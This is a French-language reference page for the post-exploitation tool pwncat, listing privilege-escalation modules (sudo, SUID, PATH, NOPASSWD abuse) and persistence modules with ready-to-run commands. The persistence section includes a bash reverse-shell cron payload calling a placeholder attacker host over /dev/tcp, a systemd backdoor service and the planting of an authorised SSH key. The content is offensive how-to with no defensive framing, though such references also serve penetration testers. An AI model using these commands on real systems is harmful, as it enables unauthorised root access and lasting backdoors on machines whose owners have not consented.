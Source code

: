 Voici une liste détaillée des modules disponibles dans **pwncat**, leur utilité, et des instructions sur la façon de les utiliser. Les modules de pwncat sont divisés en différentes catégories en fonction de leur objectif, comme l'escalade de privilèges, la persistance, la collecte d'informations, etc.

#### 1. **Modules d'Escalade de Privilèges**

Les modules d'escalade de privilèges sont utilisés pour obtenir des privilèges plus élevés (comme `root` sur Linux ou `Administrateur` sur Windows).

* **`escalate.auto`**
  * **Utilité**: Tente d'identifier et d'exploiter automatiquement les failles de sécurité pour obtenir des privilèges plus élevés.
  * **Commande**: `run escalate.auto`
  * **Exemple**: Utilisation simple sans aucun paramètre supplémentaire. pwncat tentera de toutes les méthodes connues.
* **`escalate.sudo`**
  * **Utilité**: Recherchez des configurations `sudo` qui peuvent permettre une escalade de privilèges.
  * **Commande**: `run escalate.sudo`
  * **Exemple**: `run escalate.sudo` — Identifie les commandes pouvant être exécutées avec `sudo` sans mot de passe.
* **`escalate.suid`**
  * **Utilité**: Identifie les fichiers avec le bit SUID qui peuvent être exploités pour escalader les privilèges.
  * **Commande**: `run escalate.suid`
  * **Exemple**: `run escalate.suid` — Affiche les fichiers SUID qui peuvent être exploitables.
* **`escalate.path`**
  * **Utilité**: Exploite les chemins d'accès PATH mal configurés pour obtenir des privilèges plus élevés.
  * **Commande**: `run escalate.path`
  * **Exemple**: `run escalate.path` — Vérifie si des programmes avec des chemins PATH non sécurisés peuvent être exploités.
* **`escalate.nopasswd`**
  * **Utilité**: Exploite les configurations `sudo NOPASSWD` pour exécuter des commandes sans mot de passe.
  * **Commande**: `run escalate.nopasswd`
  * **Exemple**: `run escalate.nopasswd` — Liste les commandes `sudo` disponibles sans mot de passe.

#### **2. Modules de Persistance**

Ces modules permettent de maintenir un accès persistant sur un système compromis.

* **`persistence.cron`**
  * **Utilité**: Crée une tâche cron malveillante pour exécuter périodiquement une commande.
  * **Commande**: `run persistence.cron`
  * **Exemple**: `run persistence.cron cmd="/bin/bash -i >& /dev/tcp/attacker_ip/port 0>&1"`
* **`persistence.systemd`**
  * **Utilité**: Installe un service systemd pour maintenir l'accès après un redémarrage.
  * **Commande**: `run persistence.systemd`
  * **Exemple**: `run persistence.systemd cmd="/path/to/backdoor"`
* **`persistence.ssh_key`**
  * **Utilité**: Ajoute une clé SSH autorisée pour permettre un accès SSH persistant.
  * **Commande**: `run persistence.ssh_key`
  * **Exemple**: `run persistence.ssh_key key="ssh-rsa AAAAB3... user@hostname"`
